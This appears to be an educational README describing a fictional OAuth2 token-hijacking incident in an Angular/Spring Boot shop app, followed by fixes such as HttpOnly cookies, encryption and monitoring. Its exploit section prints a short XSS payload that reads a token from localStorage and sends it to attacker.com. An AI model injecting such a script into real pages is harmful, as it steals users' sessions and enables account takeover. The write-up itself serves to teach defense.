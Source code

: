 # Buy_From_Me

Welcome to **Buy_From_Me**, an e-commerce platform where users can browse products, add items to their cart, and make purchases seamlessly. The frontend is built with **Angular**, while the backend leverages the power of **Spring Boot**. One of the app’s standout features is its **social login integration**, which allows users to log in using their **Google, Facebook, or GitHub** accounts. This feature was designed to provide a **seamless and secure authentication** experience for users.

## The Security Incident: Unauthorized Access and Profile Changes

### Stage 1: Strange Account Behavior
Users started reporting unusual behavior:

- Some users claimed their **profile information had been changed** without their action.
- Others reported that **orders were placed** using their saved payment details, even though they hadn’t made any purchases.

At first, the team thought these were isolated incidents. However, as more users reported similar issues, it became clear that something was seriously wrong.

### Stage 2: The Investigation Begins
The **Site Reliability Engineering (SRE)** team reviewed the logs and found that the app’s **OAuth2 tokens had been compromised**. A developer manually tested the OAuth2 authentication flow and discovered that the app was **storing OAuth2 tokens in localStorage**, making them vulnerable to theft via **XSS attacks**.

## The Vulnerability: OAuth2 Token Hijacking

The issue arose because of:

1. **Improper Token Storage**: The app was storing OAuth2 tokens in **localStorage**, which is accessible to any JavaScript code running on the same domain, making it vulnerable to **XSS attacks**.
2. **No Token Encryption**: The tokens were not encrypted, making it easy for attackers to steal and use them.
3. **Lack of Monitoring**: The team had not set up proper monitoring to detect unusual activity or token theft.

## The Exploit: How It Happened
An attacker injected a **malicious script** into the app via an **XSS vulnerability**:

```javascript
const token = localStorage.getItem('oauth2_token');
fetch('https://attacker.com/steal?token=' + token);
```

### Impact of the Attack
This led to:

- **Unauthorized Access**: Attackers could **impersonate users** and perform actions on their behalf.
- **Data Theft**: Sensitive user information, including **payment details**, could be exposed.
- **Erosion of User Trust**: Users lost confidence in the app, and some stopped using it altogether.

## The Solution: Secure Token Storage and Encryption

To prevent this vulnerability, the team took the following **security measures**:

### 1. Secure Token Storage
The app was updated to store **OAuth2 tokens in HttpOnly cookies** instead of **localStorage**. This ensured that the tokens were **not accessible to JavaScript**, making them immune to **XSS attacks**.

#### Example (Spring Boot Cookie Configuration):
```java
@Bean
public CookieSerializer cookieSerializer() {
    DefaultCookieSerializer serializer = new DefaultCookieSerializer();
    serializer.setCookieName("OAUTH2_TOKEN");
    serializer.setUseHttpOnlyCookie(true);
    serializer.setUseSecureCookie(true);
    return serializer;
}
```

### 2. Implement Token Encryption
The app was updated to **encrypt OAuth2 tokens** before storing them, making it harder for attackers to steal and use them.

#### Example (Token Encryption):
```java
public String encryptToken(String token) {
    // Use a secure encryption algorithm (e.g., AES)
    return EncryptionUtils.encrypt(token, encryptionKey);
}
```

### 3. Set Up Logging and Monitoring
The team implemented the **ELK Stack (Elasticsearch, Logstash, Kibana)** for **centralized logging**. Alerts were configured to notify the team of any **unusual activity** or **token theft**.

#### Example (Logging Configuration in YAML):
```yaml
logging:
  level:
    org.springframework: ERROR
    com.buyfromme: DEBUG
```

### 4. Conduct a Security Audit
The team performed a **thorough security audit** to identify and fix other potential vulnerabilities. They used tools like **OWASP ZAP** and **Snyk** to scan the app for security issues.

### 5. Deploy the Fixed Version
The updated app was deployed to **production**, and users were notified of the improvements. The team also issued a **public statement** apologizing for the issue and explaining the steps taken to resolve it.

## Insights for Developers
To avoid similar issues, developers should:

✅ **Always Use Secure Token Storage**: Store OAuth2 tokens in **HttpOnly cookies** to prevent XSS attacks.

✅ **Encrypt Tokens**: Encrypt OAuth2 tokens before storing them to make them harder to steal.

✅ **Set Up Logging and Monitoring**: Monitor your app for unusual activity and respond quickly to incidents.

✅ **Conduct Regular Security Audits**: Regularly audit your app for vulnerabilities and fix them promptly.

✅ **Follow Security Best Practices**: Stay informed about security best practices and apply them consistently.

## A Word of Caution
For hackers or anyone considering exploiting such vulnerabilities:

⚠️ **Hacking is illegal and unethical**. If caught, you are subject to severe penalties and will be held accountable for your actions.

⚠️ **Every action leaves traces**; you may be tracked and prosecuted.

👉 Instead, **use this knowledge to secure your applications and educate others**.

## Conclusion
The **OAuth2 Token Hijacking** vulnerability in the **Buy_From_Me** app serves as a critical reminder: **security lies in the details**. Always assume an attacker is looking for weak spots and design your systems to withstand even the most creative attacks.

By following **secure practices** and **educating developers**, we can build **resilient, trustworthy applications**.

---

💡 **Keep learning, stay curious, and stay secure!**

**Happy Coding, and Secure Your Apps!** 🚀

